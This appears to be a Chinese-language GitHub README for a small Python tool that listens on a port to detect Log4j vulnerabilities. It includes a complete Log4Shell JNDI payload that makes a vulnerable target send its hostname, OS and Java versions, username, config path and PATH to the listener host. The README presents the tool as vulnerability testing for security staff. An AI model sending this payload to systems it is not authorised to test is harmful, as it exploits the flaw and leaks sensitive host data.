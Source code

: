 ## 简介

- 用于探测Log4j漏洞, 将它POC的威力最大化, POC验证成功后会立即收到目标机器的系统主机名、时间、版本号、用户名、环境变量以及Log4j路径、java版本号、中间件信息等信息.

## 灵感来源

- 由于不能第一时间立刻知道某应用系统整个组件调用链、数据传输链、系统调用链中是否存在Log4j漏洞，因此经常需要黑盒测试来fuzzing。可以利用存在漏洞的Log4j组件会向攻击者指定的dns服务端发起域名解析请求的特性判断漏洞的存在，但是内网不一定存在dns服务器，即使存在也不一定配置了dns服务器，即使配置了但是通过dnslog这类平台也无法知道是内网中的哪台机器存在漏洞，即使知道了也不确定是那台机器上的哪个web应用存在漏洞，用的是哪个版本的java环境以及哪个中间件。
- 根据自己以上种种痛点写了这个小工具，提高挖洞效率，顺便开源出来。

## 作用

- 监听端口, 等待猎物，被动式发现存在Log4j漏洞的机器.
- 最大化了POC的威力: 可以获取目前机器的系统时间、主机名、Log4j路径、系统版本号、java版本号、系统用户名、中间件信息（含物理路径）、环境变量等敏感信息.
- 功能超越了dnslog和ncat.
- 时刻监听同一端口, 可不限制地接收多个目标传输过来的漏洞信息.
- 收到漏洞信息后立即断开, 避免占用目标的程序线程和网络连接.
- 记录历史, 保存漏洞信息.

## 优点

- 代码开源, 安全可控.
- 不依赖第三方库.
- 跨平台.
- 解决了内网环境没有dns服务器、不通dnslog等问题.
- 解决了内网环境无法下载ncat的问题.
- 解决了ncat命令过于冗余的问题.
- 解决了ncat监听模式下需要频繁ctrl+c才能终止OOB连接的问题.
- 兼容Python2和Python3.
- 解决了fuzzing工程师不清楚fuzzing成功了哪台目标机器的问题.
- 解决了fuzzing工程师不清楚fuzzing成功了目标机器上的哪个web应用的问题.

## 用法

1. 找一台服务器作为logxj服务端, 假设ip是LOGXJ_SERVER, 开启TCP监听服务, 监听4444端口, 则命令如下:
```
python logxj.py
```

2. 安全人员将下述```LOGXJ POC```发送给使用了log4j的目标(java应用): 
```shell
${jndi:ldap://LOGXJ_SERVER:4444/\nFound Log4j vuln!\nDate\t:${date:yyyy-MM-dd HH:mm:ss}\nHostname:${hostName}\nConf dir:${log4j:configLocation:-}\nOs ver\t:${java:os}\nJava ver:${java:version}\nUser\t:${env:USER:-}${env:USERNAME:-}\nIsTomcat:${env:CATALINA_BASE:-False}\nPATH\t:${env:PATH:-}\n\nEnd}
```

3. 此时观察logxj服务端的控制台:
- 若收到请求, 则说明目标存在log4j漏洞.
- 若无, 则说明可能暂无风险.

